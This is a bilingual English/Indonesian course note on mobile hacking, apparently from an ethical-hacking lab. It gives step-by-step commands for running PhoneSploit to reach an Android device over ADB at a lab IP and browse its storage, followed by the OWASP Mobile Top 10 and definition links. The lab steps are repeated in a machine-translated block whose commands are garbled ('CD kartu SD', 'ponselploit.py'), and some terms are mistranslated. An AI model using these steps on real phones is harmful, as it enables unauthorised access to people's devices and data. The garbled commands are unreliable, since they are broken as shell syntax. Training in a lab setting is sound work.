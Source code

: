 # Bagian 01: Mobile Platform Attack Vectors/Vektor Serangan Platform Seluler

**Modul 17: Hacking Mobile Platforms/Meretas Platform Seluler**

**Lab 1-Tugas 4: Exploit the Android Platform through ADB using PhoneSploit/Memanfaatkan Platform Android melalui ADB menggunakan PhoneSploit**

- cd Phonesploit
- python3 -m pip install colorama
- python3 phonesploit.py
- 3
- 10.10.10.14
- 4
- pwd
- cd sdcard
- cd Download

----------------------------------------

- cd Phoneploit
- python3 -m pip instal colorama
- python3 ponselploit.py
- 3
- 10.10.10.14
- 4
- pwd
- CD kartu SD
- CD Unduh

----------------------------------------------------------

## Attack Vectors/Serangan Vektor

OWASP mobile top 10/10 teratas seluler OWASP

- [M1: Penggunaan platform yang tidak tepat](https://owasp.org/www-project-mobile-top-10/2016-risks/m1-improper-platform-usage)
- [M2: Penyimpanan data tidak aman](https://owasp.org/www-project-mobile-top-10/2016-risks/m2-insecure-data-storage)
- [M3: Komunikasi tidak aman](https://owasp.org/www-project-mobile-top-10/2016-risks/m3-insecure-communication)
- [M4: Autentikasi tidak aman](https://owasp.org/www-project-mobile-top-10/2016-risks/m4-insecure-authentication)
- [M5: Kriptografi tidak aman](https://owasp.org/www-project-mobile-top-10/2016-risks/m5-insufficient-cryptography)
- [M6: Otorisasi tidak aman](https://owasp.org/www-project-mobile-top-10/2016-risks/m6-insecure-authorization)
- [M7: Kualitas kode klien](https://owasp.org/www-project-mobile-top-10/2016-risks/m7-client-code-quality)
- [M8: Perusakan kode](https://owasp.org/www-project-mobile-top-10/2016-risks/m8-code-tampering)
- [M9: Rekayasa balik](https://owasp.org/www-project-mobile-top-10/2016-risks/m9-reverse-engineering)
- [M10: Fungsionalitas asing](https://owasp.org/www-project-mobile-top-10/2016-risks/m10-extraneous-fungsionalitas)

Bring your own device (BYOD)/Bawa perangkat Anda sendiri (BYOD)

[Definisi](../definitions/definitions_B.md#bawa-perangkat-Anda-sendiri)

Smsishing/Menghancurkan

[Definisi](../definitions/definitions_S.md#smishing)

iOS jailbreaking/jailbreak iOS

[Definisi](../definitions/definitions_I.md#ios-jailbreaking)

Android rooting/Rooting Android

[Definisi](../definitions/definitions_A.md#android-rooting)
